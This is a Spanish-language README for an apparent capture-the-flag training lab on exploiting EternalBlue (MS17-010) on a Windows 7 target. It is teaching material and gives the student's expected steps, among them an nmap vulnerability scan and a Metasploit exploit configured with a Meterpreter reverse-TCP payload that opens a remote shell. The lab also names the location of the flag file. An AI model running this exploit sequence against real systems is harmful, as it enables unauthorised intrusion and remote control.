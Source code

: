 # Laboratorio ETERNAL BLUE

Este laboratorio pone a prueba la capacidad del alumno para identificar servicios vulnerables en sistemas Windows y explotar la vulnerabilidad **EternalBlue (MS17-010)** mediante Metasploit. A través de este reto, los alumnos lograrán comprender:

- Cómo detectar servicios SMB expuestos en la red.
- Uso de `nmap` para escaneo de vulnerabilidades con scripts NSE.
- Explotación de EternalBlue mediante el módulo de Metasploit.
- Obtención de acceso remoto mediante sesión `Meterpreter`.
- Lectura de flags en el escritorio de un usuario Windows.



## Especificaciones de la máquina 🖥️

- **Sistema:** Windows 7
- **Hostname:** ETERNAL-BLUE
- **Servicios activos:**
  - 445 (SMB)

- **Fondo de escritorio:** Imagen personalizada de usuario común
- **Nombre de usuario:** `user1` (puede personalizarse)
- **Flag:** `C:\Users\user1\Desktop\flag.txt`

## Pasos esperados por el alumno

1. Descubrir la IP de la máquina. Herramientas recomendadas: `nmap`, `netdiscover` o `arp-scan`.


2. Escanear el puerto 445 y detectar la vulnerabilidad MS17-010. Comando sugerido:

    ```bash
    nmap -p 445 --script smb-vuln-ms17-010 <IP>
    ```

3. Cargar y configurar el exploit en Metasploit. Módulo a utilizar:

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```

    Parámetros típicos:

        ```bash
        set RHOSTS <IP>
        set LHOST <IP_local>
        set PAYLOAD windows/x64/meterpreter/reverse_tcp
        run
        ```

4. Obtener una sesión Meterpreter. Validar acceso con:

    ```bash
    getuid
    ```

5. Navegar al escritorio del usuario y leer la flag.

